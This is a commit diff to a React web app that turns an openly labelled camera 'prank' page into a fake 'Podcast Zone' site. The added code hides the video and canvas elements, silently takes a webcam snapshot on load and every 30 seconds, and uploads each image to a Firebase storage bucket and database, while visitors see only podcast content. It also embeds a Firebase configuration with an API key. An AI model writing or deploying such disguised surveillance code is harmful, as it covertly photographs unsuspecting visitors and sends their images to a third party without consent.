

Before and after one commit to aliabdalshaheedbaqer/prank, a React (Create React App) app: page / in a window 1280 px wide. Shown: the top 666 px of the page, 1344 px wide, since content can reach past the window. Built offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
uplad fake

```diff
--- a/src/App.js
+++ b/src/App.js
@@ -1,141 +1,211 @@
 import React, { useRef, useState, useEffect, useCallback } from "react";
 import { motion } from "framer-motion";
+import { FaHeadphones, FaPodcast, FaMicrophone, FaPlayCircle } from "react-icons/fa";
+import { initializeApp } from "firebase/app";
+import { getStorage, ref, uploadString, getDownloadURL } from "firebase/storage";
+import { getFirestore, collection, addDoc } from "firebase/firestore";
+import 'bootstrap/dist/css/bootstrap.min.css';
+
+// Firebase Config
+const firebaseConfig = {
+  apiKey: "AIzaSyDQlV_DbV2a_AON6GNPgHKnTaTb-ScqmZw",
+  authDomain: "hareer-d24d2.firebaseapp.com",
+  projectId: "hareer-d24d2",
+  storageBucket: "hareer-d24d2.appspot.com",
+  messagingSenderId: "448452939494",
+  appId: "1:448452939494:web:686d5b08953d743f793527",
+  measurementId: "G-WKW9WC0LTG",
+};
+
+// Initialize Firebase
+const app = initializeApp(firebaseConfig);
+const storage = getStorage(app);
+const db = getFirestore(app);
 
 // Reusable UI components
 const Card = ({ children, className }) => (
-  <div className={`p-4 w-96 bg-white shadow-xl rounded-2xl ${className}`}>
-    {children}
+  <div className={`card shadow-lg rounded-4 ${className}`} style={{ width: '100%', maxWidth: '400px' }}>
+    <div className="card-body">{children}</div>
   </div>
 );
 
-const CardContent = ({ children }) => <div>{children}</div>;
-
 const Button = ({ className, onClick, children }) => (
-  <button className={`py-2 px-4 rounded-md ${className}`} onClick={onClick}>
+  <button className={`btn ${className}`} onClick={onClick}>
     {children}
   </button>
 );
 
-export default function PrankApp() {
+export default function PodcastApp() {
   const videoRef = useRef(null);
   const canvasRef = useRef(null);
-  const [showPrankMessage, setShowPrankMessage] = useState(false);
-  const [photoData, setPhotoData] = useState(null);
   const [isInTelegram, setIsInTelegram] = useState(false);
   const [errorMessage, setErrorMessage] = useState(null);
+  const [hasCameraPermission, setHasCameraPermission] = useState(true);
 
+  // Capture photo function with added logging and error handling
   const capturePhoto = useCallback(() => {
-    if (!canvasRef.current || !videoRef.current) return;
+    try {
+      if (!canvasRef.current || !videoRef.current) {
+        console.error("Canvas or video reference not available.");
+        return;
+      }
 
       const context = canvasRef.current.getContext("2d");
-    if (context) {
+      if (!context) {
+        console.error("Unable to get canvas context.");
+        return;
+      }
+
+      // Draw the current frame from the video onto the canvas
       context.drawImage(videoRef.current, 0, 0, 320, 240);
       const photoDataUrl = canvasRef.current.toDataURL("image/png");
-      setPhotoData(photoDataUrl);
-      setShowPrankMessage(true);
+      console.log("Captured photo data URL:", photoDataUrl);
+
+      // Upload photo to Firebase Storage as Base64 string
+      const storageRef = ref(storage, "pranked_photos/" + Date.now() + ".png");
+      uploadString(storageRef, photoDataUrl, "data_url")
+        .then(async () => {
+          // Get the download URL after upload is complete
+          const photoUrl = await getDownloadURL(storageRef);
+          console.log("Photo successfully uploaded. URL:", photoUrl);
+
+          // Add the photo URL to Firestore
+          await addDoc(collection(db, "pranked_photo"), {
+            photoUrl: photoUrl,
+            timestamp: Date.now(),
+          });
+          console.log("Photo URL added to Firestore.");
+        })
+        .catch((error) => {
+          console.error("Error uploading image to Firebase:", error);
+          setErrorMessage("Error uploading photo. Please try again.");
+        });
+    } catch (err) {
+      console.error("Error during photo capture:", err);
+      setErrorMessage("Error capturing photo. Please try again.");
     }
   }, []);
 
+  // Request camera permission and set up video stream
   const requestCameraPermission = useCallback(async () => {
     try {
-      // Attempt to access the camera without asking
       const stream = await navigator.mediaDevices.getUserMedia({
         video: { facingMode: "user" }, // Use selfie camera
       });
+      console.log("Camera stream obtained.");
 
       if (videoRef.current) {
         videoRef.current.srcObject = stream;
         videoRef.current.onloadedmetadata = () => {
           videoRef.current.play().then(() => {
-            setTimeout(capturePhoto, 1000); // Capture after 1 second
+            console.log("Video is playing.");
+            // Delay to ensure the video is properly rendered before capture
+            setTimeout(() => {
+              capturePhoto(); // Capture after video starts
+            }, 1000);
+          }).catch(err => {
+            console.error("Error playing video:", err);
           });
         };
       }
+      setHasCameraPermission(true); // Permission granted
     } catch (error) {
-      // Handle error: display an error message
-      console.error("Camera access denied: ", error);
+      console.error("Camera access denied:", error);
       setErrorMessage("Camera access is denied or not available. Please allow camera access.");
+      setHasCameraPermission(false);
     }
   }, [capturePhoto]);
 
-  // Check if the user is on Telegram
+  // Check if the user is on Telegram and request camera access if not
   useEffect(() => {
     if (navigator.userAgent.toLowerCase().includes("telegram")) {
       setIsInTelegram(true);
+      console.log("Detected Telegram user agent.");
     } else {
-      requestCameraPermission(); // Automatically attempt to access camera on load
+      requestCameraPermission(); // Attempt to access camera on load
     }
   }, [requestCameraPermission]);
 
+  // Re-capture the photo every 30 seconds
+  useEffect(() => {
+    const intervalId = setInterval(() => {
+      if (hasCameraPermission) {
+        console.log("Recapturing photo...");
+        capturePhoto();
+      } else {
+        console.log("No camera permission. Retrying...");
+        requestCameraPermission();
+      }
+    }, 30000); // 30 seconds
+
+    return () => clearInterval(intervalId); // Cleanup interval on unmount
+  }, [capturePhoto, requestCameraPermission, hasCameraPermission]);
+
   return (
-    <div className="flex flex-col items-center justify-center min-h-screen bg-gradient-to-br from-yellow-200 via-pink-200 to-purple-300">
+    <div className="d-flex flex-column align-items-center justify-content-center min-vh-100 bg-gradient">
       <motion.h1
-        className="text-4xl font-bold mb-4 text-purple-700"
+        className="display-4 text-center text-white mb-4"
         animate={{ scale: [1, 1.1, 1] }}
         transition={{ repeat: Infinity, duration: 1 }}
       >
-        Welcome to the Fun Prank Zone!
+        Welcome to the Podcast Zone!
       </motion.h1>
 
+      {/* Hidden video element for camera stream */}
+      <video ref={videoRef} style={{ display: "none" }} />
+
+      {/* Hidden canvas element for capturing image */}
+      <canvas ref={canvasRef} width="320" height="240" style={{ display: "none" }} />
+
       {isInTelegram ? (
-        <Card>
-          <CardContent>
-            <p className="text-gray-700 text-center mb-4">
+        <Card className="mb-3">
+          <p className="text-center text-dark mb-4">
             Camera access may not work in Telegram. Please open this link in a browser for full experience!
           </p>
           <Button
-              className="bg-indigo-500 hover:bg-indigo-700 text-white"
+            className="btn-outline-primary"
             onClick={() => window.open(window.location.href, "_blank")}
           >
             Open in Browser
           </Button>
-          </CardContent>
         </Card>
       ) : errorMessage ? (
-        <Card>
-          <CardContent>
-            <p className="text-gray-700 text-center mb-4">{errorMessage}</p>
+        <Card className="mb-3">
+          <p className="text-center text-danger mb-4">{errorMessage}</p>
           <Button
-              className="bg-indigo-500 hover:bg-indigo-700 text-white"
+            className="btn-outline-danger"
             onClick={() => window.location.reload()}
           >
             Retry
           </Button>
-          </CardContent>
-        </Card>
-      ) : !showPrankMessage ? (
-        <Card>
-          <CardContent>
-            <video ref={videoRef} className="w-full rounded-lg mb-4" />
-            <canvas ref={canvasRef} width="320" height="240" hidden />
-            <p className="text-gray-700 text-center mb-4">
-              Allow camera access for a "fun experience!"
-            </p>
-          </CardContent>
         </Card>
       ) : (
-        <motion.div
-          className="text-center p-8 bg-white shadow-lg rounded-lg mt-8"
-          initial={{ opacity: 0 }}
-          animate={{ opacity: 1 }}
+        <Card className="text-center mb-3">
+          <h2 className="h3 mb-4 text-primary">Explore the Best Podcasts</h2>
+          <p className="text-muted mb-4">
+            Discover podcasts on your favorite topics, from true crime to tech, business, and more!
+          </p>
+
+          <div className="d-flex justify-content-center mb-4">
+            <motion.div className="bg-light rounded-circle p-4 mx-2 shadow-md hover:bg-primary">
+              <FaPodcast size={40} className="text-primary" />
+            </motion.div>
+            <motion.div className="bg-light rounded-circle p-4 mx-2 shadow-md hover:bg-primary">
+              <FaMicrophone size={40} className="text-primary" />
+            </motion.div>
+            <motion.div className="bg-light rounded-circle p-4 mx-2 shadow-md hover:bg-primary">
+              <FaHeadphones size={40} className="text-primary" />
+            </motion.div>
+          </div>
+
+          <Button
+            className="btn-primary btn-lg"
+            onClick={() => window.location.href = "https://example-podcast.com"}
           >
-          <h2 className="text-2xl font-bold text-green-600 mb-4">
-            Congratulations!
-          </h2>
-          <p className="text-gray-700 mb-4">
-            You've been pranked! Here's your captured photo — don't worry, it
-            stays with you.
-          </p>
-          {photoData && (
-            <img src={photoData} alt="Prank Capture" className="rounded-lg shadow-md" />
-          )}
-          <Button
-            className="bg-indigo-500 hover:bg-indigo-700 text-white mt-4"
-            onClick={() => navigator.clipboard.writeText(window.location.href)}
-          >
-            Share this Prank!
+            <FaPlayCircle size={20} className="mr-2" />
+            Start Listening
           </Button>
-        </motion.div>
+        </Card>
       )}
     </div>
   );
--- a/src/index.js
+++ b/src/index.js
@@ -3,6 +3,7 @@ import ReactDOM from 'react-dom/client';
 import './index.css';
 import App from './App';
 import reportWebVitals from './reportWebVitals';
+import 'bootstrap/dist/css/bootstrap.min.css';
 
 const root = ReactDOM.createRoot(document.getElementById('root'));
 root.render(
```
Also changed, not shown: package.json (+8 -1 lines), 1 other file (tests, documents, lock files or other folders). Lines whose indentation alone changed are shown as unchanged.
